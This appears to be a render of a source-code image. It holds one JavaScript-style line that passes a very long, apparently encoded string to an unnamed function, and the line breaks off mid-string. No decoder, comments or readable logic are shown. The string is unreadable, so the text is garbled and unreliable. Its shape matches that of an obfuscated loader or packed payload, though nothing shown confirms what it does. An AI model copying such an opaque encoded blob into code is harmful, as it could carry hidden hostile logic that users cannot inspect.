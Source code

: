 h=f(o,"6:Dto%N=p4bgEH,7o,o%NNppbgH4,,:^tD%D,tDb%NNp4NggE7bH7gtbN:pvl7tg%D=o4NgNogpNE:E,bg7Htp%N=N4bD7No=D4ogNHN=%bbHb7H8EoDN:=Db:E44=,HtoohN,4>g:p%g4p:bgEo,N+pDpb%{77::t:HN=gNE%%H4bbTED,oKob%Hg7bH=DEN7p7b,E7,b-btb%HDgN7gF,%(=D:tENwpHbEHo,7}=tpg77ESDDooNNND%t=N7=bb,H9,o:%DEo4o:%p=bb%Eo,oREDHo,Ngp,b,Ht7b:ptp%4D:%tNopNbpEp%N%=b,,4&Nt%oN=%4pbpH%bgQ:tp%,=p_Htg%n=D4ogooo4DgtEH7D:D:t%,=H4=gb,4=:4EgoHN7p:pg=9.CgtbNoD7=4EpH=N7gogDHo7N:Ng%,bTpt%%pDHp:gD,f.%:poYNQtHN=b=7p:tDb%D=b4gg)4:y:Do7=%Epsb4Ho,HFot=:2,::oDooNNpppD%%EpH%ggk,p>,tp%:Np4HgbH7b7,bqE%4,7:btD%o=N4NDo=4p7b,HHbH7=oN%%,H:pt;%D=o4otoNgp,g%,Dbg7%oo%t,gD=D,%z=D4DDo=4ppbpHE7H_Et737No4NE=,c.4D77HoN4bgYp%Ht},DE%opo4NDgNgN,4zgDHD=4bNHt,HDztglgt%=%EN,:7pDnopN4=,%7E77DE%:=oEtb=bg,Ht7ED:tEDD7t:4tN%p=b4btCNE4bggo=popbbEE,,,pjHW,D0DttobD==4bEHH7rH:Dt%,4:gtgE7mg7::oE=7b:b,HH7N:fb4H%,Eh,tQ%&,oV,(:o4N,4bg:Ho7g:NE47DTED,%3=_7,%:NootpHHE,gptb7EN,pBbDbg47,DaojN,p7NtbH7E8gbtEH,NCpDbob,o:,opNDt74oEp,N=7gNED,oCNDNEt;=:EoEN,tH4Tp:7=:o,=%HNE47gNHNY=H%:pNDpp:%t7%p=b4EgE%EN,4Hp7Eo,tV%D77::Hto%N=p4ptD=E4oEVH71oH::gNb=4::tH%o=N4pgpob47g4H=7E:po%t4=,b%t:N%=o4NgpHp=:bEHw7I:gttNottp=gEgt7DD7op=%4=bbH%N:p,boEN,p^pbe,>^=DD7HogpNbbEN,bDDbt,%,N9pDbob,,DDo=N4p,gpptEH:EDg?gt%=%EN,:7pDFopN4=,%7E77DE%Dbo,==bDggHD!%H,b7,:7D:otN%N,7tbob=oboNHg:7HDDtpNDpE%gb%7odt4g,DH,RZDDoDH%,:o%N4pEbDpg7D:D,:og=bp4N44tHtDot7%N=,bNE=HEgHDH%<Dt=%bb4pHp:Et:%b=74bpB%:=b4ogNHp7pp4EE,7BEoD%gp%igo,o,=Z4DgD%D4:g%E,7%E4:tND=:%:=ggg{ED=t,NNp,b7Eob%:%tpSg%H4DpaEj^o:4oDN=pDNpt4N4=E4,EF,8=DgHHNh%:E%L:4%EgMHD,D:pt:%g,:DNDooNNppp:gNEpHgVE7,oE:tp%%Ngpbg7HD&DH:ob%,ptb%=gH7<o,:o7N,4bgHHx7:E7t4%pp=4Ep=%t=H4NgpHb7b4NHg7o:EtHtH=E4=D7%g=D4ogNHNN%g=HN7p:N:%%Up=4pEto7=b4DgoHN7N4%E,7%:=t,nH%=bNg%oH==4egDHo7o4gEp7=H=,4ttpD4:D4%DNEp,g!HXN7goEDbtCHtEog,t!EDNopNbpb:pNgp,bDEH,D374HHc,aeDDoooHoDDo%=<t4=7EN7D1otD%=Ngo44=HN7H:Ebg,,,,:&tD%D,,t:%=N,4ogD,%7DE7obNDpbb4=4,D7,DEoNDtpggNHgbgR7toN%p=4bE444,:MHtDH4;N:Et,Nsph:t%(ptb==%Eb7EDHoNN74%:HtE%74:bDEo,N+NbNHH5N:EoN=opMg=Epb%74Dbo,=N4Hgpog=pp,g}HD7D4tHb7t_b,=%p=HoH4tHb7ppHg7Hu7D:otoED::D,%oN,og44H3VoD=7%obpH4EEg,t=4bNgEH,kmD3g:&o:7tb%bpNb==gE7,H&pgg,%7,D<oDND.Do%%op=%=b:7f774=E,Hb7E:,t,EE:gtp%,=p%%bb,H7ED7%DD:=Nb,Ho7,:=D,Ntp/b%DH%==>4DgoHo=%gNHb7NE4:tND=:34ttoEN,4Lg}ot4:bNEpb%,7t,oH,%:,DpobNEpED_NH=,gDHobt,ptE%H=74NgHHpgthpo
NN4qb4E(7%:Dt=g7GDsDDooNNN7gooNopp%gb%,/(oD,_%D7N7EmHg7D:boDNt=p%4E4,Eg7::oNto=ogpEH7N:gtN:E,H:ttK%D=oeb:4tENppto:N,pobNEp,ppDHK44,gDD%tD:=%goEb7optgDEN,pQbDbgECEDg7H%op7bEHg,E:gt,o,=gh4t=oEN,42gU%SpgbDHtb%,4Db%7p:4ggN,NNH4%g5HD7o:ogt,E:%,=t7tH(%D7opNbpEbEt7p=bEE77:.o,%:4,::%DooNNpppDpNEpgg:EN7%fN,t%4N7p,Nggp7p:Ht7%bp4::tg%o=N4pgp%Eppg%H=E7:xt7%b,H:%tr%D=o4oD7Np4bg4Hp74p%gEEp,b5EDEEE)t:,ot=y4bN%b47pDttN%H=p%t4=Hp{HD7o4No4o:goo%,p3bDED%E4Dg,Hb,g:btHH%77:ptb%E=EtH%bphbtEtHE_t:,g:,:7o:Ntp%p,4t4%Dp:4NgHHpgt7booN4pob7Eo%4pN4Eg,,##(bM,o7pDpo=NEt4bDED7t:+4gEEH,{FDDoDHoD4tp%ppEbHgE,7g7:ooN==4^g4H7N%4EbpEb,E-E4b,HQbH7tp=%pbgbHH7=:D,7oo=EbDEE,%7Et:o,=t7gt=t,NVpDbDtgNN=NbXHhg47HD4o,Nop,gpb=,gDEN:pt4HgpHEC4Dp%mNgptgotgNN=,bKED,DpDE:Hp7b:g74ot4Db:t4Nb=E4,ES,KN7E:,{7,:bo%:4%HbEEH,N:N,%tJ%7>tDgoNNppb:DtHND==4%g4,(4gHoH,2sDDoD,tD?tEN:=EbH=gE:^oD=op=t4bb,pg,C:pt,Npp:4pEH,b=%b,gpHb7E:EgH7bDotoNttt=4gEH7OYDg%DNNot4pHX7ND#t4%Cp%bDE=o7p:4DgoHN7N4NHb74:7toNt=r4H=tEp(gDpoHNNpogotgNE=,blED,Dpog7HEZg:EogN,=,bgp:EoF4to%D=4<%D,opNbpEbEo=pUg%=7E4:pD=g7,,eDDooNNN*No4N4=,b_H:74E::boN=4o4=Ho%=:ppbbEE,EpiHo,bg7WHopNNp,g,HdN%4obpEb,ESE4E,t7,Dp%t=bpNg4E,bg7%oo%t,gD%D,%9=D4DDIN7pEgDEEb47:tN%N=4b=gb,4VEHgtdNpp,gpH:,p:Htb%7,=DoDboEN,p,oH%74=bDHN7pJEtH%o=:N4pcbDEH,Er,DEo7=t44ggHp7=:HoVN:p&o4=opEb,Hq7*pDH=,NPNtb%gN,og=7o==%pbbEE,,,p,g,,b:Nt%oND==Eg7E,7H:%bgHD,,:;tD%D,0jHtD%tNED:%9NopNbpEp=op4EaEo7:kDtb%EN7pHH,I%:7b=HE,b0ED,o,,%tDo4=N4=gpHEb47,t%%o=74oEt,OWY:Eog=D74D%tE%,p!b<to=,bXE8H=7pH4Dt=Dp::4%=%E=,b+EB=74:E4Ho9pDbt,N7pNbt4ggDHo7p:4otNopNb=Eo,NAgD7oH=N4AgtH44HEg,0eDDooo,oDoobNC=H%gbo,u),Dpu%%79:tGooNNppbpop=E7EPDoUoDt2qtog4!gEE,7%p=g4Eb,E8,D,4g,Ht:%;NHpbbbHHbg74tYNg=ob=EE,E=tg=gNHp7b:bE:}D:DD,N:=%4p=%EHEgHg&%o%4Ng:Ep7L:pt4o,D747ED4%,=:E;bobp,btEE7:#E7DEt7,dNDpobNb7po=Nopbbop:ENqHDp%N=g4Ng,H7VNH%DbNDppgDEg,D:=to%4,:2,DooNNpppD%N4=,bpEN7o#,:D%t=tbDDtoENNppbbEb%4bpgH4H,=tNo%HHx=D{oDNopo:%%ppt4,=4Et:DD:g4,f7E:,onN MN:Uot%gpDD7N:=D4ogNHN=%bNHf7E:O,H%)t:=4E:,Nc4Dgt,:7%t:gop%,p5bDED%=4bg=Hb,=DgohNbppgNHw%Hp4beED,o#o4D,pI=DNog%EtHp=HN,%=HbNE2,DnoDog,cDDH7=o:4047t=N4=b4Eg,H,=%EDH4*ND=opNEt4poEg,%Vbt:o,=gp,Dt%DNNppbbEb%g4bE4,::p,p%ND%=,gpHH74:tb4Hb,ES,t*%{H7DK%%Ng4=gNHp7pEH:XN%p=4Ngb,o=tbEgNHp7b:bbg,,BEt:%gpb%tbp,?2=D,7H%:pNg=H=7 ego#N:=pb_E:oH=74ugDHo7o4:Ep74E=:E%o=bbogHHoa4DNog:g%N=pt4NH=E4,Er,U=bgxH%gt7poZNH4o%HbD,4Iot%%gN,4HNHb:N4b,bEE,7J:egw,7)NDpo4D==:ELE7b7W47t:H%Hb,E4,)0pt+%:NNo=g=HbbH77toDDNDbNgg,o54DosbHgV=:,o{NDpD:o%p=b%%4E,NTgDN%:NN7gDot,NkpDbDtp=,bt=%g7X,:HgoHN7p:btE%,pIbDEo,=:9DboEN,p,ttN:pbbNH%74Hpb:,:,oyNDpop,=D(o7%Ep4gDp:bg,gtE%=N,4Ng,H77oH%o%NptgpHEDgG7+too4=D4=gD4pN44tbEE,7/:c47,,#7D,x%o74,bHo%N7ppbbEE,E=bg7,Ed7t%<t%DpED:%oNopNbpEp%=btE,,SgHcg%KNN43p:p4HH:No%%D=7bpD7%4=D4ogNHNNog4E7,,:H:%No=t_gtoo,=P4DgD%D=:4Ep%EE7E:gE%7NapDboENED%o7o4N:pEHN7::=t,tgNtb=EDg7,Hp7g4HD7o:NtNHD:%,=%E=7bDg%H=Ng4%b,HK7D:DgD,N:=t4%I==4DE2o=p7pbbEE,,,=HE4,,:4,tDg=44,go,:vDH:D4D=t=N:b:7DwHDooE=o4%bbpg7g:,7:ot=pNNbN,b77DpoHNpo,:7o%NDpobNEN%EbtE/,H=D4ogNHp7b:Et,NVEDb%Ht,p<bDEoE,.Dbt,Ngo:p%EN7g:Ht=%DpDB4oEoEN,4Yg0%mp7bNEp,4E=::N.N7o7=4g4XbD%tENopEbHEDbt:ttNX4%g4m=,g,uD:=o/N%p{NNt=N&=b4Eg,H,pD=bgz^gDpo=%E7#:Dto%N=p4bgEE,t7Dto4NNppbbEbN%4bEp,D==bNgbHE7,:,E%7E:Ett%E=b%=4b,7::DiooN,7HoNoeNDpoboo%=g4,Eb44*:DNogNNotgEEp7EEgtHN:pQb=gbHbRHDPo::74pbEH4,7E4:p%E=,47bNHb7bH4t:th7=tptb%E=,4,ot=D4HE<,:g%77o,%HtHN=b=7p:tDb%D=b4ggm4:r:Do7=%EpVb4Ho,Hyot=:T,::%DooNNppp:pNNp=b7E7,,_HDp2%Ng4pNgE07DDttEN%pg::o:%o=N4pgp%%p7bbH4{::,t,:t%gbNEgH,(DtDg4,t7E:,o_NC7H:oo%NN%%4,EpgE4%EbHp7b:EtEEg:TtDx7NobbgN,4*NHgt
